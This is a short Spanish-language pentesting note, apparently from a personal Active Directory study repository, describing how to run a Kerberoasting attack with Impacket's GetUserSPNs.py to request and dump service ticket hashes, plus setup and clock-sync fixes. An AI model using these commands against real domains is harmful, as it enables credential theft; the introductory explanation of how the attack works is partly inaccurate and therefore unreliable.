 # Que es un ataque de Kerberoasting?
Kerberoasting es un ataque que se centra en obtener acceso a mas recursos mediante una escalada de privilegios, esto permite a los atacantes, hacerse pasar por usuarios del dominio sin privilegios con atributos `SPN` y solicitar tickets `TGS` relacionados con el servicio de la memoria en un intento de descifrar los hashes `NTLM`.

# Requisitos
Para evitar problemas debemos añadir al `/etc/hosts` lo siguiente, en el caso de este ataque con poner solo la ip y el nombre de dominio es suficiente.
```
<ip_DC> <nombre_dominio> <dominio> <nombre-DC>
```
Ejemplo:
```
192.168.214.149 wizcorp.local wizcorp DC-Company
```

# Efectuar ataque con GetUserSPNs
Este ataque nos permite dumpear el hash de los usuarios que sean vulnerables.
```
GetUsersSPNs.py <DOMINIO>/<usuario>:<contraseña> -dc-ip <ip_DC> -request
```
[Ver ejemplo](/Apuntes-AD/Images/3.md)

# Exportar hashes
En el caso de obtener un hash se pueden exportar directamente a un archivo con el parametro `-output <file>`

# Fix
Si el ataque te da el siguiente error: "Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too great)" debes sincronizar la hora con el server de AD con el siguinte comando:
```
rdate -n <IP_DC>
```
